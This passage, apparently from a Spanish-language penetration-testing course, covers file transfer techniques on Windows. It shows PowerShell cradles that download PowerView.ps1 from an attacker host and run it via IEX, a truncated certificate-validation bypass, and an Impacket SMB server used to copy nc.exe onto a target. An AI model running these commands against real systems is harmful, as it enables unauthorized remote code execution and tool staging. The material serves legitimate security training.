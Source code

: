 ### **Error de Parsing de Internet Explorer**

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```

Si el motor de Internet Explorer no está disponible o la configuración inicial no se ha completado, podemos agregar el parámetro `-UseBasicParsing`.

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

**Error de Canal Seguro SSL/TLS**

Si el certificado no es confiable, podemos evitar el error con el siguiente comando:

```powershell
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValid
```

## Descargas SMB

El protocolo **Server Message Block (SMB)**, que opera en el puerto **TCP/445**, es común en redes empresariales donde se ejecutan servicios de Windows. Este protocolo permite a las aplicaciones y usuarios transferir archivos hacia y desde servidores remotos.

Podemos usar SMB para descargar archivos fácilmente desde nuestro Pwnbox. Para ello, necesitamos crear un servidor SMB en Pwnbox con **smbserver.py** de **Impacket**, y luego utilizar comandos como `copy`, `move`, `PowerShell Copy-Item`, u otra herramienta que permita la conexión a SMB.

### Crear el Servidor SMB

```bash
sherlock28@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

### Copiar un Archivo desde el Servidor SMB

Para descargar un archivo del servidor SMB al directorio de trabajo actual, podemos usar el siguiente comando:

```cmd
C:\htb> copy \\192.168.220.133\share\nc.exe
        1 file(s) copied.
```

Las versiones más recientes de Windows bloquean el acceso de invitados no autenticados, como podemos ver en el siguiente mensaje de error:
